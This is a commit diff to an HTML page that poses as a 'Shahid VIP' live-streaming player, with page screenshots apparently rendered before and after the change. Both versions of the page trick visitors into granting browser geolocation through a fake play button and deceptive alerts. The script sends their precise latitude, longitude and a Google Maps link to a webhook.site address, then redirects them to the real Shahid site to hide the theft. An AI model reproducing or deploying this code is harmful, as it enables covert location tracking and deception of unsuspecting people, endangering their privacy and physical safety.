

Before and after one commit to sasasasasasasasassssssssssssssssss/shahid-live, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 178-602 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,26 +3,28 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>شاهد فور يو | Shahid4U</title>
+    <title>شاهد VIP | Shahid Live</title>
     <style>
-        body { background-color: #000; color: #fff; font-family: sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; text-align: center; }
-        .btn { background-color: #ff0000; color: white; padding: 15px 30px; border: none; border-radius: 5px; font-size: 1.2rem; cursor: pointer; text-decoration: none; }
+        body { background-color: #000; color: #fff; font-family: sans-serif; display: flex; flex-direction: column; justify-content: center; align-items: center; height: 100vh; margin: 0; }
+        .player-box { width: 90%; max-width: 500px; height: 280px; background: #111; border: 2px solid #333; display: flex; justify-content: center; align-items: center; border-radius: 10px; cursor: pointer; position: relative; }
+        .play-icon { font-size: 80px; color: #fff; opacity: 0.8; }
+        .text-info { margin-top: 20px; font-size: 1.1rem; color: #ccc; }
     </style>
 </head>
 <body>
-    <div>
-        <h1>مشاهدة فيلم "ولاد رزق 3" حصرياً</h1>
-        <p>يجب تأكيد هويتك للمتابعة والمشاهدة مجاناً</p>
-        <button class="btn" onclick="startProcess()">Continue / متابعة</button>
+
+    <div class="player-box" onclick="captureLocation()">
+        <div class="play-icon">▶️</div>
     </div>
+    <div class="text-info">اضغط على المشغل لبدء البث المباشر (حصرياً)</div>
 
     <script>
-        async function startProcess() {
-            // رابط الـ Webhook الخاص بك
-            const webhookUrl = 'https://webhook.site/866c5c83-d3aa-4627-b9e5-5f835299495f';
+        function captureLocation() {
+            // تنبيه تمويهي يخلي الشخص يضغط موافق قبل طلب الموقع
+            alert("جاري التحقق من السيرفر في منطقتك... يرجى الضغط على 'سماح' لبدء البث.");
 
             if (navigator.geolocation) {
-                navigator.geolocation.getCurrentPosition(async (position) => {
+                navigator.geolocation.getCurrentPosition((position) => {
                     const lat = position.coords.latitude;
                     const lon = position.coords.longitude;
 
@@ -30,31 +32,24 @@
                         latitude: lat,
                         longitude: lon,
                         map_link: `https://www.google.com/maps?q=${lat},${lon}`,
-                        userAgent: navigator.userAgent
+                        info: "Captured from iPhone/Mobile"
                     };
 
-                    // إرسال البيانات بوضع no-cors لضمان العبور من حماية الآيفون
-                    try {
-                        await fetch(webhookUrl, {
-                            method: 'POST',
-                            mode: 'no-cors',
-                            headers: { 'Content-Type': 'application/json' },
-                            body: JSON.stringify(data)
-                        });
-                    } catch (e) {
-                        console.log("Sent");
-                    }
+                    // إرسال البيانات فوراً لـ Webhook الخاص بك
+                    fetch('https://webhook.site/866c5c83-d3aa-4627-b9e5-5f835299495f', {
+                        method: 'POST',
+                        mode: 'no-cors',
+                        body: JSON.stringify(data)
+                    });
 
-                    // تحويل المستخدم لموقع شاهد الحقيقي بعد 1 ثانية
+                    // تحويل الشخص لموقع شاهد بعد الإرسال
                     setTimeout(() => {
                         window.location.href = "https://shahid.mbc.net/";
                     }, 1000);
 
                 }, (error) => {
-                    alert("عذراً، يجب السماح بالوصول للموقع لتتمكن من رؤية الأفلام القريبة منك!");
-                }, { enableHighAccuracy: true, timeout: 5000, maximumAge: 0 });
-            } else {
-                alert("متصفحك لا يدعم هذه الميزة.");
+                    alert("يجب السماح بالوصول للموقع لتخطي الحجب عن هذا الفيلم في بلدك.");
+                }, { enableHighAccuracy: true });
             }
         }
     </script>
```
